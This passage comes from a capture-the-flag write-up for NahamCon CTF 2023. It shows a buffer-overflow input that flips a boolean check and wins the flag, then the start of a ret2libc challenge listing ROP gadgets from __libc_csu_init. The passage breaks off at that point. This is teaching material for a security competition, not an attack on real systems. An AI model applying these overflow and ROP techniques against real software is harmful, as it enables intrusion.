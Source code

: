 With this in mind, we need to start with `OpenSesame!!!` to pass the check; then, to successfully overflow into `caveCanOpen` we pass in `1`'s so that we overwrite `0` with `1`. This will flip the Bool from false to true and then out password will pass the check.

```bash
┌──(root㉿8f1b1e4b13e1)-[~/workspace/ctf/NahmonCTF2023]
└─# nc challenge.nahamcon.com 32743
BEHOLD THE CAVE OF GOLD

What is the magic enchantment that opens the mouth of the cave?
OpenSesame!!!1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:
flag{85605e34d3d2623866c57843a0d2c4da}
```

## All Patched Up

```txt
All Patched Up
413 points - Binary Exploitation - 68 Solves - medium
Author: @M_alpha#3534

Do you really know how to ret2libc? 

Download the files below and press Start on the top-right to begin this challenge.

Attachments: libc-2.31.so, all_patched_up, Dockerfile
```

I want to ROP, so I decided to give this challenge a shot. I sadly didn't solve the remote server during the runtime of the competition but I'm going to break down my work to get it running locally, the issue I ran into on the server, and how I fixed it after seeing other solves.

Opening this binary up in Binary Ninja, we can see it looks really bare with only 3 functions included. We have `write()`, `read()`, and `setbuf()`... we'll probably only really need two of those however since we can't do much with `setbuf()`. We're also given a version of LibC that still contains the `__libc_csu_init()` which has a lot of helpful ROP gadgets for us to make use of. Let's just take a quick look at these functions and the calling conventions / gadgets available.

Starting with `__libc_csu_init()`, we have two really helpful sections that can allow us to control majority of the registers. These are:

```x86asm
00401230  4c89f2             mov     rdx, r14
00401233  4c89ee             mov     rsi, r13
00401236  4489e7             mov     edi, r12d
00401239  41ff14df           call    qword [r15+rbx*8]
0040123d  4883c301           add     rbx, 0x1
00401241  4839dd             cmp     rbp, rbx
00401244  75ea               jne     0x401230

00401246  4883c408           add     rsp, 0x8
0040124a  5b                 pop     rbx {__saved_rbx}
0040124b  5d                 pop     rbp {__saved_rbp}
0040124c  415c               pop     r12 {__saved_r12}
0040124e  415d               pop     r13 {__saved_r13}
00401250  415e               pop     r14 {__saved_r14}
00401252  415f               pop     r15 {__saved_r15}
00401254  48c7c701000000     mov     rdi, 0x1
0040125b  c3                 retn     {__return_addr}
```
